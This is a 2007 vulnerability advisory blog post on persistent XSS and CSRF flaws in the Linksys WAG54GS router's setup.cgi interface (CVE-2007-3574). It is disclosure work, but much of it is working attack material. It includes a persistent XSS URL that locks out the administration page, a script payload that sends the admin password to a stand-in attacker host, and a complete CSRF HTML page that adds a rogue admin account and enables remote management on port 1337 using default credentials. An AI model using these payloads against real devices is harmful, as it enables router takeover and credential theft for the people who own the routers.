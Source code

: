```yaml
---
title: Persistent XSS and CSRF on Wireless-G ADSL Gateway with SpeedBooster (WAG54GS)
author: pagvac
date: Tue, 20 Nov 2007 20:51:16 GMT
template: post.jade
---
```


I really think that web interfaces are the _low-hanging fruit_ of embedded devices. Sure classic attacks such as predictable SNMP community strings, exposed TFTP services and buffer overflows still apply. However, by exploiting the web interface we can steal the data we want, we can enable remote access to the compromised router, we own the victim's connection. In short, bugs on the web interface gives us all we need! Anyway, enough talking! The following are some of the issues I found on the Cisco Linksys WAG54GS.

The following vulns were found on 24 June 2007 and were tested against firmware V1.00.06. The specific persistent XSS holes mentioned in this advisory were fixed by Cisco on firmware version V1.01.03. However, there are still several other persistent XSS plus the system-wide CSRF in the latest firmware. [CVE-2007-3574](http://nvd.nist.gov/nvd.cfm?cvename=CVE-2007-3574) has been assigned to these issues. Thanks a lot to Cisco for being so great when dealing with my emails! Credits also go to pdp for providing feedback, ideas and allowing me to play with his spare [WAG54GS](http://snipurl.com/1txmt) router.

By the way, part of this advisory got leaked some time ago on FD, but I am publishing it as a formal release with additional information including a password leak which can be combined with any of the persistent XSS holes found (keep reading for more info on this).

### Description

There are several persistent XSS vulnerabilities on the `/setup.cgi` script. It is possible to inject JavaScript by assigning a payload like the following to any of the vulnerable parameters:

    ><script>[PAYLOAD]</script>

    The vulnerable (non-sanitized) parameters are the following: `devname`, `snmp_getcomm`, `snmp_setcomm`, `c4_trap_ip_`. Additionally, all HTTP requests are not tokenized with random values. Thus, all requests to the router's HTTP interface are vulnerable to Cross-site Request Forgeries (CSRF), perhaps by design. The following is an example of a HTTP request (notice the lack of non-predictable tokens):

    POST /setup.cgi HTTP/1.1
    Authorization: Basic YWRtaW46YWRtaW4=

    mtenRestore=Restore+Factory+Defaults&todo=defaultsettings&this_file=Factorydefaults.htm&next_file=index.htm&message=

    Although the original request is a POST, we can convert it to a GET, so that all posted parameters can be submitted on a single URL. For example, the previous POST request can be converted to a URL such as the following:

    http://admin:admin@192.168.1.1/setup.cgi?mtenRestore=Restore+Factory+Defaults&todo=defaultsettings&this_file=Factorydefaults.htm&next_file=index.htm&message=

    By forging administrative requests (Administration button on the router's HTML menu), an attacker can compromise the router provided the victim user visits a malicious URL or HTML page. The attack can only be successful if the administrator hasn't changed the default credentials (admin/admin) or the administrator's browser has an active authentication session with the router's interface when the attack happens (highly unlikely)

    ### Persistent XSS PoC

    The following URL creates a DoS condition by making the Administration page inaccessible since `history.back()` will run every time the Administration page is visited. Thus the administrator won't be able to ever change the default credentials unless a hard reset is performed by using the router's physical "restart" switch:

    http://admin:admin@192.168.1.1/setup.cgi?user_list=1&sysname=admin&sysPasswd=admin&sysConfirmPasswd=admin&remote_management=enable&http_wanport=8080&devname=&snmp_enable=disable&upnp_enable=enable&wlan_enable=enable&save=Save+Settings&h_user_list=1&h_pwset=yes&pwchanged=yes&h_remote_management=enable&c4_trap_ip_=">history.back()&h_snmp_enable=enable&h_upnp_enable=enable&h_wlan_enable=enable&todo=save&this_file=Administration.htm&next_file=Administration.htm&message=

    Note that he administration page (`/setup.cgi?next_file=Administration.htm`) returns the admin password within the client-side HTML source code as a hidden field. i.e.:

    <input type="hidden" name="old_pwd" value="admin">

    Therefore, we could also inject a payload in our persistent XSS attack which accesses the admin password through the DOM object:

    document.administration.old_pwd.value

    ...and submits it to the attacker's site every time the page is accessed. That way, even if the victim admin changed the password, the attacker would receive the value of the new password! Here is an example payload:

    "><script>img=new Image();img.src='http://evil.foo/?last_pwd='+document.administration.old_pwd.value</script><a b="

    ### CSRF PoC

    The following HTML page does the following:

* adds an additional administrative account, with a username equals to 'attacker' and a password equals to 0wned (without removing original admin account!)
* enables remote HTTP management over port 1337
* sets other settings that are inrelevant to this discussion

    <html>
    <body>
    	<script>
    	// send 2 requests to add an administrative account and enable remote management
    	// tries with default credentials and with credentials cached by browser (if any)

    	var img = new Image();
    	var img2 = new Image();

    	img.src = 'http://admin:admin@192.168.1.1/setup.cgi?user_list=8&sysname=attacker&sysPasswd=0wned&sysConfirmPasswd=0wned&remote_management=enable&http_wanport=1337&devname=&snmp_enable=disable&upnp_enable=enable&wlan_enable=enable&save=Save+Settings&h_user_list=8&h_pwset=yes&pwchanged=yes&h_remote_management=enable&c4_trap_ip_=&h_snmp_enable=disable&h_upnp_enable=enable&h_wlan_enable=enable&todo=save&this_file=Administration.htm&next_file=Administration.htm&message=';
    	img2.src = 'http://192.168.1.1/setup.cgi?user_list=8&sysname=attacker&sysPasswd=0wned&sysConfirmPasswd=0wned&remote_management=enable&http_wanport=1337&devname=&snmp_enable=disable&upnp_enable=enable&wlan_enable=enable&save=Save+Settings&h_user_list=8&h_pwset=yes&pwchanged=yes&h_remote_management=enable&c4_trap_ip_=&h_snmp_enable=disable&h_upnp_enable=enable&h_wlan_enable=enable&todo=save&this_file=Administration.htm&next_file=Administration.htm&message=';
    	</script>
    </body>
    </html>

The first URL forges the administrative request using the default credentials, so it won't work if default credentials have been changed. The second URL doesn't specify any credentials as an attempt to use the browser's cached credentials. If the admin user has clicked on "Save password" on the basic authentication prompt, most browsers will prompt the user to confirm submitting the cached credentials. The only situation in which browsers won't ask the user to confirm submitting the credentials would be if the malicious CSRF page was visited while the browser has an active authenticated session with the router's HTTP interface (very unlikely).

### Additional notes

* router reboots after saving settings (requests sent to `setup.cgi`)
* all attacks were tested using Internet Explorer 7
